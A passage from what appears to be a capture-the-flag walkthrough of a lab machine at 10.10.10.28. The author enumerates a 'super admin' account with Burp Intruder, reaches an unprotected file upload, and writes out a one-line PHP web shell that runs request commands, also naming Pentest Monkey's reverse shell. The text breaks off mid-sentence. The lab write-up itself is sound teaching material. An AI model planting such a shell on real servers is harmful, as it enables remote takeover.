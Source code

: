 There are a bunch of other ways to achieve what I did. You could use Burp intruder with a "Simple list" and generate a list of integers using `seq 100`. Like I mentioned, you could also do this manually and would find the "super admin" account fairly quickly.

## 80: Super Admin Panel

Time to navigate to the previously locked uploads area as super admin...

![Uploads!](screenshots/80_super_admin_access.png)

This file upload feature is terrible. No protection at all. Feel free to upload whatever you want! A common go-to for this would be the [`php=reverse-shell` from Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell). It works well - but to have a little more flexibility, I tried a simple PHP script with a request parameter. Create using the following:

```none
echo '<?php system($_REQUEST["cmd"]) ?>' > shell.php
```

Since we knew there is an `uploads` folder at the root of the web app (see gobuster results from before), we can hazard a guess that the file was uploaded there. Navigate to the upload location, in my case `http://10.10.10.28/uploads/shell.php`. The full URL I used to check command injection was:
